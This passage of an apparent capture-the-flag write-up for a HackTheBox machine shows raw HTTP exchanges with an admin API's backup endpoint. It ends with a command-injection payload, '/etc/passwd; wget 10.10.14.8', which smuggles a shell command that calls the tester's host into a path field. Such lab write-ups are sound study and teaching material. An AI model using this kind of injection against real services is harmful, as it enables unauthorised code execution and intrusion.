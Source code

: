 ```http
HTTP/1.1 200 OK
Date: Sun, 26 Feb 2023 16:37:07 GMT
Server: uvicorn
content-length: 83
content-type: application/json
Connection: close

{"admin_funcs":{"check db connection":"/check","backup the application":"/backup"}}o
```

It showed 2 additional endpoints. I tried '/admin/check', the response said that it was not implemented yet.

I tried the '/admin/backup' endpoint. It required a path.

```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type: application/json
Authorization: JWT
Content-Length: 27

{
"path": "/etc/passwd"
}
```

```http
HTTP/1.1 200 OK
Date: Fri, 03 Mar 2023 12:43:17 GMT
Server: uvicorn
content-length: 16
content-type: application/json
Connection: close

{"INFO":"Done!"}
```

I thought this might be creating backups through some command line, so I tried to get code execution.

```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-type: application/json
Authorization: JWT
Content-Length: 44

{
"path": "/etc/passwd; wget 10.10.14.8"
}
```